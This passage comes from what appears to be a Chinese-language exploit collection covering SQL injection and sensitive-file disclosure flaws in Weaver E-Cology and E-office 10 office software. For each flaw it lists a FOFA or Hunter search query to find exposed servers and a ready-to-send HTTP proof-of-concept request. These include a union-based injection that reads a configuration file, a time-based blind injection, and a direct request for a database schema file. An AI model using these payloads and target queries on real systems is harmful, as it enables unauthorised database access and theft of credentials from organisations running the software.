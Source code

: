   
### 2.1.16泛微E-Cology系统接口SignatureDownLoad存在SQL注入漏洞  
- fofa  
app="泛微-OA（e-cology）"  
- poc  
```
GET /weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
```  
### 2.1.17泛微E-office-10接口leave_record.php存在SQL注入漏洞  
  
泛微eoffice10协同办公平台是一款专业的office办公的工具软件。软件支持在线多人编辑文件，并且会在第一时间收发协作需求。十分方便快捷，界面简约，布局直观清晰，操作简单，极易上手，是一款不可多得的利器。泛微E-office 10 leave_record存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息甚至getshell。  
- hunter  
web.body="eoffice10"&&web.body="eoffice_loading_tip"  
- poc  
```
GET /eoffice10/server/ext/system_support/leave_record.php?flow_id=1%27+AND+%28SELECT+4196+FROM+%28SELECT%28SLEEP%285%29%29%29LWzs%29+AND+%27zfNf%27%3D%27zfNf&run_id=1&table_field=1&table_field_name=user()&max_rows=10 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```  
### 2.1.18泛微e-office10系统schema_mysql.sql敏感信息泄露漏洞  
  
泛微 e-office 10 schema_mysql.sql敏感信息泄露漏洞  
- fofa  
body="eoffice_loading_tip" && body="eoffice10"  
- poc  
```
GET /eoffice10/empty_scene/db/schema_mysql.sql HTTP/1.1
Host:
Pragma:no-cache
Cache-Control:no-cache
Upgrade-Insecure-Requests:1
User-Agent:Mozilla/5.0(Macintosh;IntelMacOSX10_15_7)AppleWebKit/537.36(KHTML,likeGecko)Chrome/120.0.0.0Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding:gzip,deflate
Accept-Language:zh-CN,zh;q=0.9,en;q=0.8
Connection:close
Content-Type:application/x-www-form-urlencoded
Content-Length:70
```  
  